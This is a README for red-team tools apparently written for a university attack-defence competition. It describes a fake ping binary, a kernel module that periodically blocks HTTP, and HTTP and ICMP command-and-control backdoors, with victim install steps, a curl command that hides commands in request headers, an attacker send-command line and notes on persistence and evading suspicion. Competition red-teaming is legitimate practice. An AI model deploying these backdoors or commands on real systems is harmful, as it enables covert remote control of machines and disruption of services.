 # Red Team Tools

This project is still being developed, and I intend to update both the installer and documentation soon...

Each of the tools below was developed by Jack Dunfey for the Internal Lockdown competition at the University at Buffalo.

Each of their folders has an individual README with more information 

## Everything!

```
git clone ...
cd Red-Team-Tools
chmod +x install.sh
./install.sh all
```

## Malicious Ping

This is a C program that can be compiled to replace the ping binary on a system.
It will seem successful for any properly formed IP address or valid DNS name.

<!-- Add images here -->

## HTTP Takedown Kernel Module

This is a kernel module that when installed will block HTTP requests for X minutes every Y minutes. X and Y can be set using macros at the top of the file.

## HTTP C2

Creates a service called processd that runs a program that listens for commands hidden in the headers of an HTTP request

Example Attack:
`curl $VICTIM_IP -A "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/420.69 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36" -H "Cookie: $CMD" -H "Upgrade-Insecure-Requests: $RETURN_PORT" > /dev/null 2>&1`

## ICMP C2

Creates a service called icmp that "replaces" the kernels responses to icmp echo requests with its own. It will respect the contents of the `net.ipv4.icmp_echo_ignore_all`.

If IP packet has an id of 45, 65, 31, or 17, the service will execute the payload and the response will be the output of the command.

<!-- TODO: 
- Should make the code timeout and send decoy response to avoid suspicion -->

Multithreading and restart on failure added for persistence.

For victim:
git clone then run `sudo ./install.sh` from within icmp-c2 directory
Once installed, source directory can be deleted 

For attacker:
run `python3 send-command.py ls -l`, can replace with any command

To force a reply even if ignore echo rule is turned on, use the `-f` flag as `argv[1]`
